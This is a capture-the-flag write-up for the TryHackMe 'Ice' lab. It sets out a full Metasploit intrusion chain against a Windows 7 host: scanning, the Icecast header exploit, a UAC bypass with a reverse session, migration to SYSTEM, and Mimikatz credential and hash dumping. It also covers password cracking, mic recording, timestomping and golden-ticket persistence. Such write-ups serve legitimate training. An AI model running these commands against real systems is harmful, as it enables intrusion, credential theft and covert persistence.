

# Ice


## Intro

| Room Info           |           |
| :------------------ | ------------------------------------- |
| 🔗 Name              | [Ice](https://tryhackme.com/room/ice) |
| 🎯 Target IP         | `10.10.159.9`                         |
| 📈 Difficulty level  | 🟢Easy                                 |
| 💲 Subscription type | Free                                  |
| 🪟 🐧OS               | Windows                               |

---

## Recon

```bash
mkdir ice
cd ice/
sudo nmap -sS -sV -Pn -p- 10.10.159.9
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  http         Icecast streaming media server
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:58:8C:89:6C:3D (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

---

## Exploitation

```bash
msfconsole -q
setg RHOSTS 10.10.159.9
setg RHOST 10.10.159.9
search cve:2004-1561
use exploit/windows/http/icecast_header
run
```

### Local Enumeration

```bash
getuid
sysinfo
run post/multi/recon/local_exploit_suggester
```

```bash
Server username: Dark-PC\Dark

Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

1 exploit/windows/local/bypassuac_eventvwr         Yes The target appears to be v erable.
2 exploit/windows/local/ms10_092_schelevator       Yes The service is running, but could not be v dated.
3 exploit/windows/local/ms13_053_schlamperei       Yes The target appears to be v erable.
4 exploit/windows/local/ms13_081_track_popup_menu  Yes The target appears to be v erable.
5 exploit/windows/local/ms14_058_track_popup_menu  Yes The target appears to be v erable.
6 exploit/windows/local/ms15_051_client_copy_image Yes The target appears to be v erable.
7 exploit/windows/local/ntusermndragover           Yes The target appears to be v erable.
8 exploit/windows/local/ppr_flatten_rec            Yes The target appears to be v erable.
9 exploit/windows/local/tokenmagic                 Yes The target appears to be vulnerable.
```

---

## Privilege Escalation

```bash
background
sessions
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.10.55.230
set LPORT 4455
run

getprivs
```

```bash
Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

---

## Post Exploitation

```bash
pgrep spool
migrate 1376 # poolsv PID
migrate -N spoolsv.exe
getuid 
	Server username: NT AUTHORITY\SYSTEM

# Mimikatz
load kiwi
creds_all
```

> 📌 `Dark`:`Password01!`

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

* Cracking (extra)

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes_ice.txt
```


```bash
screenshare
	file:///root/ipzHMhGp.html
record_mic
timestomp
golden_ticket_create # persistence
```

```bash
run post/windows/manage/enable_rdp
xfreerdp /u:Dark /p:Password01! /v:10.10.159.9
```



***
